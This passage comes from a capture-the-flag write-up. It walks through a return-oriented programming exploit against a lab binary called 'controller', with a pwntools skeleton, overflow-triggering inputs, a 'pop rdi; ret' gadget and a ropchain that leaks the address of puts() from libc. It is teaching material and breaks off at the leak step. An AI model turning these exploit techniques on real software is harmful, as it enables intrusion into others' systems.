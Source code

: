 The exact offset is  **40**.

## 2. Ropchain, Gadgets & LIBC Addresses Leak

In order to run the `controller` binary with the` libc.so.6` provided to us and to facilitate the development of our exploit, we can use the tool [`pwninit`](https://github.com/io12/pwninit#pwninit).

When you start to write an exploit, it is good to have a template / skeleton that you can start from. The one I am used to for ROP challenges is the following:

```python
import pwn

host = "127.0.0.1"
port = 1337

remote = False

binary_path = './vuln'
libc_path = './libc.so.6'
ld_path = './ld-2.27.so'
binary = pwn.ELF(binary_path)
libc = pwn.ELF(libc_path)
rop_binary = pwn.ROP(binary)

if remote:
    r = pwn.remote(host,port)
else:
    r = pwn.process([ld_path, binary_path], env={"LD_PRELOAD": libc_path})

# Exploit code starts here :)

r.interactive()
r.close()
```

- We start by coding the lines that allow us to enter the two integers `-2147483648` and` -2147418310`, to choose "1" and perform an addition. This will lead us to the `scanf()` function:

```python
r.sendlineafter("Insert the amount of 2 different types of recources:", b"-2147483648 -2147418310")
r.sendlineafter(">", b"1")
```

- Then we get a gadget `pop rdi; ret`:

```python
pop_rdi = (rop_binary.find_gadget(['pop rdi', 'ret']))[0]
```

- We prepare a first Ropchain to leak the address of the `puts()` function in the libc:

```python
plt_puts = binary.plt['puts']
got_puts = binary.got['puts']
main_addr = binary.symbols['main']

ropchain = buffer + pwn.p64(pop_rdi) + pwn.p64(got_puts) + pwn.p64(plt_puts) + pwn.p64(main_addr)
r.sendlineafter(">", ropchain)
```

